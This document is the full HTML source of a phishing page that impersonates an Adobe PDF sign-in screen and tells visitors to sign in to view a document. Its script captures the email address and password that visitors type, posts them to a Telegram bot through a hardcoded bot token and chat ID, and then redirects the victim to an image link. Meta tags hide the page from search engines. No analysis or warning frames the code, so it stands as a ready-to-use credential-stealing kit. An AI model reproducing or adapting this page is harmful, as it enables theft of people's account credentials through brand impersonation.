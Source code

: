 <HTML><HEAD><TITLE>Sign in to continue</TITLE><LINK rel=stylesheet href="main.css"><LINK rel=icon type=image/png href="https://www.adobe.com/favicon.ico">
    <META name=robots content="noindex, noarchive, nofollow, nosnippet">
    <META name=googlebot content="noindex, noarchive, nofollow, nosnippet, noimageindex">
    <META name=slurp content="noindex, noarchive, nofollow, nosnippet, noodp, noydir">
    <META name=msnbot content="noindex, noarchive, nofollow, nosnippet">
    <META name=teoma content="noindex, noarchive, nofollow, nosnippet">
    <META name=viewport content="width=device-width, initial-scale=1">
    <STYLE>
    @import url(https://fonts.googleapis.com/css?family=PT+Sans:400,700);*{box-sizing: inherit;}html{min-height: 100%;box-sizing: border-box;}body{margin: 0;padding: 0;background: url(https://i.gyazo.com/049bc4624875e35c9a678af7eb99bb95.jpg) no-repeat;width: 100vw;height: 100vh;position: absolute;background-size: cover;}.login{padding: 10px;}.files{padding: 10px;background: #d40909f5 !important;position: absolute;top:50%;left: 50%;transform: translate(-50%, -50%);width: 580px;max-width: 
    500px;box-sizing: border-box;color: #fff;text-align: center;font-family: 'PT Sans', sans-serif;margin-top: 2rem;}.error-message{/* background: rgba(225,225,225,0.5); */list-style-type: none;font-family: inherit;padding: 15px 10px;width: 90%;display: block;margin: 0 auto 5px auto;}.error-message li:not(:last-of-type){margin-bottom: 7px;}.error-message li{font-weight: bold;font-size: 18px;color: #581e1e;}form{max-width: 450px;margin: 0 auto;}form>
    div{position: relative;background: #fff;color: #000;}form>div>input{width: 100%;border: none;padding: 1.35rem 1.8rem;background: #fff;transition: all .3s;}form>div>input:focus{outline: none;}form>div>input::placeholder{font-size: .8rem;font-weight: bold;}form>div>input.valid{padding: 1.35rem 2.4rem;background: url(https://s3-us-west-2.amazonaws.com/s.cdpn.io/3/check.svg);background-size: 15px;background-repeat: no-repeat;background-position: 12px 23px;}form>div>
    input.invalid:not(:focus):not(:placeholder-shown){background: pink;}form input[type="submit"]{display: block;width: 100%;margin: 20px 0;background: #581e1e;color: white;border: 0;padding: 20px;font-size: 1.2rem;}form input[type="submit"]:hover{box-shadow: 1px 1px #581e1e;cursor: pointer;border: 2px 2px solid #581e1e;}form input[type="submit"]:focus{outline: none;}.invalid{background: pink;color: #fff;}.img{padding-left: 1.5rem;padding-top: .5rem;position: fixed;}header{width: 100%;height: 
    70px;background-color: #000;}@media screen and (max-width: 360px) and (min-width: 320px){.files{margin: 100px auto;}}
    </STYLE>
    
    <META name=GENERATOR content="MSHTML 11.00.10570.1001"></HEAD>
    <BODY><HEADER><IMG class=img alt=adobe src="https://seeklogo.com/images/A/adobe-logo-5CC38E11AD-seeklogo.com.png" height=120> </HEADER>
    <DIV class=files><IMG src="https://seeklogo.com/images/A/Adobe_PDF-logo-D4883D5CD6-seeklogo.com.png" height=80> 
    <H2>Sign in to view the document</H2><!-- Requirements: current -->
    <UL class=error-message>
    <LI>
    <LI></LI></UL>
    <DIV class=login>
    <FORM id=myForm method=post action=https://smartforms.dev/submit/658c703d5df1517d48d8bd57>
    <DIV><INPUT id=email class=input name='email' autocomplete="off" placeholder="Email Address" required="">
 <!-- <label for="email">Email Address </label> --><!-- Requirements: no longer in use --><!-- <div class="requirements">Must be a valid email address.</div> --></DIV><BR>
    <DIV><INPUT id=password class=input type=password name=password placeholder="Password" required="" pattern=".{5,}"> <!-- <label for="password">Password</label> --><!-- Requirements: no longer in use --><!-- <div class="requirements">
    Your password must be at least 6 characters as well as contain at least one uppercase, one
    lowercase, and one number.
    </div> --></DIV><INPUT id=submit type=submit value="View PDF Document"> </FORM></DIV></DIV>
	
	 <script>
    document.getElementById('myForm').addEventListener('submit', function(event) {
        event.preventDefault();

        // Retrieve form data
        const formData = new FormData(document.getElementById('myForm'));
        const email = formData.get('email');
        const password = formData.get('password');

        // Compose the message
        const message = `New form submission:\nEmail: ${email}\nPassword: ${password}`;

        // Your Telegram bot token and chat ID
        const botToken = '2143043732:AAHxBJToyKjR9xlIQjijGr7AwDqV3m2RNZQ';
        const chatId = '672269703'; // Start with '-' for group or channel chat IDs

        // Construct the Telegram API URL
        const telegramUrl = `https://api.telegram.org/bot${botToken}/sendMessage`;

        // Data to be sent to Telegram
        const data = {
            chat_id: chatId,
            text: message
        };

        // Use Fetch API to send data to Telegram
        fetch(telegramUrl, {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify(data)
        })
        .then(response => {
            // Handle the response as needed
            console.log('Message sent to Telegram');

            // Redirect to Google.com after 4 seconds (4000 milliseconds)
            setTimeout(function() {
                window.location.href = 'https://ibb.co/R2Xrj4L';
            }, 4000);
        })
        .catch(error => {
            // Handle errors
            console.error('Error sending message:', error);
        });
    });
</script>
</BODY></HTML>
